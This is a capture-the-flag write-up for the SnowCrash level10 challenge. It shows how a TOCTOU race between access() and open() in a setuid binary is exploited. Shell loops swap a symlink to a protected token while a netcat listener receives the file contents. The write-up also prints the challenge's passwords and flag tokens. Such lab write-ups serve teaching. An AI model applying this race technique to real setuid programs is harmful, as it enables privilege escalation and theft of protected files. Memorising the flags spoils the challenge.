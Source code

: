 `su level10 -> s5cAJpM8ev6XHw998pRWG728z`

We have a binary owned by flag10 and a token impossible to read:

```bash
level10@SnowCrash:~$ ls -la
-rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10*
-rw-------  1 flag10  flag10     26 Mar  5  2016 token
```

Try to run the binary:

```bash
level10@SnowCrash:~$ ./level10 
./level10 file host
        sends file to host if you have access to it
```

Try something without port information:

```bash
level10@SnowCrash:~$ ./level10 token  0.0.0.0
You don't have access to token
```

Try with a file with good permissions:

```bash
level10@SnowCrash:~$ echo 42 > /tmp/42
level10@SnowCrash:~$ ./level10 /tmp/42  0.0.0.0
Connecting to 0.0.0.0:6969 .. Unable to connect to host 0.0.0.0
```

Now we know the port is `6969`. We can try to send the file to netcat server.
To do this we need to run netcat server in a terminal and send the file in another terminal.

- send the file:

```bash
level10@SnowCrash:~$ ./level10 /tmp/42  0.0.0.0
Connecting to 0.0.0.0:6969 .. Connected!
Sending file .. wrote file!
```

- netcat server:

```bash
level10@SnowCrash:~$ nc -l 6969
.*( )*.
42
```

It's working but not with the token. Check what it's doing with ltrace with `/tmp/42`:

```bash
level10@SnowCrash:~$ ltrace ./level10 /tmp/42  0.0.0.0
__libc_start_main(0x80486d4, 3, 0xbffff7d4, 0x8048970, 0x80489e0 <unfinished ...>)
access("/tmp/42", 4)
printf("Connecting to %s:6969 .. ", "0.0.0.0")
fflush(0xb7fd1a20Connecting to 0.0.0.0:6969 .. )
socket(2, 1, 0)
inet_addr("0.0.0.0")
htons(6969, 1, 0, 0, 0)
connect(3, 0xbffff71c, 16, 0, 0)
write(3, ".*(
printf("Connected!\nSending file .. "Connected!)
)
fflush(0xb7fd1a20Sending file .. )
open("/tmp/42", 0, 010)
read(4, "42\n", 4096)
write(3, "42\n", 3)
puts("wrote file!"wrote file!
)
+++ exited (status 12)
```

The binary check first if our user can read the file and then open it and write in the socket.
We can exploit a **race condition** because the socket thinks are executed after the access and it take long time.
To do this we need to:

1. Listen with netcat

```bash
level10@SnowCrash:~$ while true; do nc -l 6969 | grep -v ".*( )*."; done
```

2. Create a file where we can access / delete it / create a symlink between the file and token:

```bash
level10@SnowCrash:~$ while true; do touch /tmp/42; rm -rf /tmp/42; ln -s $PWD/token /tmp/42; rm -rf /tmp/42; done
```

3. Send `/tmp/42` to the server a lots of times:

```bash
level10@SnowCrash:~$ while true ; do ./level10 /tmp/42 0.0.0.0 2> /dev/null; done
```

Then we get the token mulitple times:

```bash
level10@SnowCrash:~$ while true; do nc -l 6969 | grep -v ".*( )*."; done
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
```

Connect with this:

```bash
level10@SnowCrash:~$ su flag10
Password: 
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```
